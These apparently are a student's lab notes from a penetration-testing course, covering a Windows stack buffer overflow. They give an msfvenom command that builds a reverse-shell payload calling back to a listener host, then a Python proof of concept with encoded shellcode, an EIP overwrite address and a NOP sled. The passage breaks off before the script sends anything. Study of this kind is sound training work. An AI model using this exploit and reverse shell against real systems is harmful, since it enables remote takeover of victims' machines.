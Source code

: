 After running the code we end at our JMP ESP breakpoint
![[Pasted image 20220713151141.png]]

Stepping into this command sends us to the "D" placeholder, signifying a successful jump.
![[Pasted image 20220713151246.png]]

# 11.2.13 Getting a Shell
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Update your PoC to include a working payload.
In order to generate shellcode we will be using MSFVenom, the following command can be used to generate our shellcode. Note the bad characters discovered earlier which the encoder will avoid using.
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.233 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

(Note: I was only able to achieve a reverse shell using "EXITFUNC=thread")

![[Pasted image 20220713215416.png]]

The shellcode has now been generated and can be added to our PoC.
```python
#!/usr/bin/python2
import socket

try:
  print "\nSending shellcode"

  buf = ("\xdb\xd6\xd9\x74\x24\xf4\xbd\x93\xef\x2f\xe1\x5a\x33\xc9\xb1"
"\x52\x83\xc2\x04\x31\x6a\x13\x03\xf9\xfc\xcd\x14\x01\xea\x90"
"\xd7\xf9\xeb\xf4\x5e\x1c\xda\x34\x04\x55\x4d\x85\x4e\x3b\x62"
"\x6e\x02\xaf\xf1\x02\x8b\xc0\xb2\xa9\xed\xef\x43\x81\xce\x6e"
"\xc0\xd8\x02\x50\xf9\x12\x57\x91\x3e\x4e\x9a\xc3\x97\x04\x09"
"\xf3\x9c\x51\x92\x78\xee\x74\x92\x9d\xa7\x77\xb3\x30\xb3\x21"
"\x13\xb3\x10\x5a\x1a\xab\x75\x67\xd4\x40\x4d\x13\xe7\x80\x9f"
"\xdc\x44\xed\x2f\x2f\x94\x2a\x97\xd0\xe3\x42\xeb\x6d\xf4\x91"
"\x91\xa9\x71\x01\x31\x39\x21\xed\xc3\xee\xb4\x66\xcf\x5b\xb2"
"\x20\xcc\x5a\x17\x5b\xe8\xd7\x96\x8b\x78\xa3\xbc\x0f\x20\x77"
"\xdc\x16\x8c\xd6\xe1\x48\x6f\x86\x47\x03\x82\xd3\xf5\x4e\xcb"
"\x10\x34\x70\x0b\x3f\x4f\x03\x39\xe0\xfb\x8b\x71\x69\x22\x4c"
"\x75\x40\x92\xc2\x88\x6b\xe3\xcb\x4e\x3f\xb3\x63\x66\x40\x58"
"\x73\x87\x95\xcf\x23\x27\x46\xb0\x93\x87\x36\x58\xf9\x07\x68"
"\x78\x02\xc2\x01\x13\xf9\x85\xed\x4c\x76\xbf\x86\x8e\x78\x3e"
"\xec\x06\x9e\x2a\x02\x4f\x09\xc3\xbb\xca\xc1\x72\x43\xc1\xac"
"\xb5\xcf\xe6\x51\x7b\x38\x82\x41\xec\xc8\xd9\x3b\xbb\xd7\xf7"
"\x53\x27\x45\x9c\xa3\x2e\x76\x0b\xf4\x67\x48\x42\x90\x95\xf3"
"\xfc\x86\x67\x65\xc6\x02\xbc\x56\xc9\x8b\x31\xe2\xed\x9b\x8f"
"\xeb\xa9\xcf\x5f\xba\x67\xb9\x19\x14\xc6\x13\xf0\xcb\x80\xf3"
"\x85\x27\x13\x85\x89\x6d\xe5\x69\x3b\xd8\xb0\x96\xf4\x8c\x34"
"\xef\xe8\x2c\xba\x3a\xa9\x4d\x59\xee\xc4\xe5\xc4\x7b\x65\x68"
"\xf7\x56\xaa\x95\x74\x52\x53\x62\x64\x17\x56\x2e\x22\xc4\x2a"
"\x3f\xc7\xea\x99\x40\xc2")


  filler = "A" * 780
  eip = "\x83\x0c\x09\x10"    #0x10090c83
  offset = "C" * 4
  nops = "\x90" * 10
#  buffer = "D" * (1500 -len(filler) - len(eip) - len(offset))

  inputBuffer = filler + eip + offset + nops + buf
```